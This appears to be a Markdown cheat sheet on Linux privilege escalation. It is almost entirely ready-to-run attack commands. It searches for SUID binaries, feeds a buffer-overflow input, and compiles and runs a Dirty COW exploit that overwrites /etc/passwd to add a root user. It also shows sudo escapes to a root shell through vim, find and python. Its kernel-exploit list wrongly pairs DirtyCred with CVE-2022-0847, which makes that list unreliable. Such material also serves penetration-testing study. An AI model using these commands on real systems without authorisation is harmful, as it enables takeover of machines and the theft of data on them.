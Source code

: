 ### Linux Privilege Escalation

**SUID binary exploitation:**

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Common exploitable SUID binaries:
# - Custom binaries with vulnerabilities
# - Misconfigured system utilities

# Example: SUID binary with buffer overflow
/usr/local/bin/custom_tool $(python3 -c 'print("A"*200 + shellcode)')
```

**Kernel exploits:**

```bash
# Check kernel version
uname -a

# Search for kernel exploits
searchsploit linux kernel 4.4.0

# Common kernel exploits:
# - Dirty COW (CVE-2016-5195)
# - DirtyCred (CVE-2022-0847)
# - PwnKit (CVE-2021-4034)

# Example: Dirty COW exploitation
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password
# Overwrites /etc/passwd to add root user
```

**Sudo misconfigurations:**

```bash
# Check sudo privileges
sudo -l

# Exploitable patterns:
# (ALL) NOPASSWD: /usr/bin/vim
sudo vim -c ':!/bin/sh'

# (ALL) NOPASSWD: /usr/bin/find
sudo find . -exec /bin/sh \; -quit

# (ALL) NOPASSWD: /usr/bin/python
sudo python -c 'import os; os.system("/bin/sh")'

# GTFOBins for sudo escape techniques:
# https://gtfobins.github.io/
```
